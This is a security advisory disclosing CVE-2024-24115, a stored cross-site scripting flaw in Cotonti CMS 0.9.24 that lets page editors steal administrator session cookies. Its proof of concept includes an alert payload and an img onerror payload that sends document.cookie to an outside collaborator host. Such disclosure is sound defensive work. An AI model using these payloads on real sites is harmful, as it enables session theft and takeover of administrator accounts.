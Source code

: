 # Stored Cross-Site Scripting (XSS) in Edit Page function in Cotonti CMS 0.9.24

> https://github.com/Cotonti/Cotonti

# Vulnerability Type
CWE-79: Cross-site Scripting (XSS) - Stored

# CVSS 7.6 HIGH
CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:L

# Description
A user that is in the moderator group or any group that can edit Pages, is able to inject malicious Javascript code to the Page and effectively steal the session cookie of any user, including any administrator's

# Execution steps
1. A Member User is logged in and can edit a Page. (Example: the Welcome! page in the News category)
2. A Member User is logged in and adds malicious code in the Page that has 'parser' switched to 'none'.
3. A Member User is logged in, views the Page but the malicious code is stored but not executed.
4. A Member User is logged in, edits the Page and switches 'parser' to 'html'.
5. An Admin user is logged in and the malicious code is silently executed.
6. The Attacker receives the cookie of the Admin that visits the Page.
7. The stolen cookie belongs to an administrator and the Attacker has full access to the CMS.

# Impact
A malicious user that is in the moderator group or any group that can edit Pages can escalate his privileges to any higher level group, including Administrators without being authorized. The malicious user can then create, edit and delete and content in the CMS, create new users with any privilege and disable users.

# Proof of Concept code
Add some random text in HTML <p> tags and then:

1. Pop-up the cookie with an alert:
```
<script>alert(document.cookie)</script>
```
==OR ==


2. Send the cookie to an Attacker controlled server:
```
<img src=x onerror=this.src="http://5ekinbe9n3ta9w10ozijz91ex53wrmfb.oastify.com?c="+document.cookie />
```

# References
- [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-24115](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-24115)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-24115](https://nvd.nist.gov/vuln/detail/CVE-2024-24115)
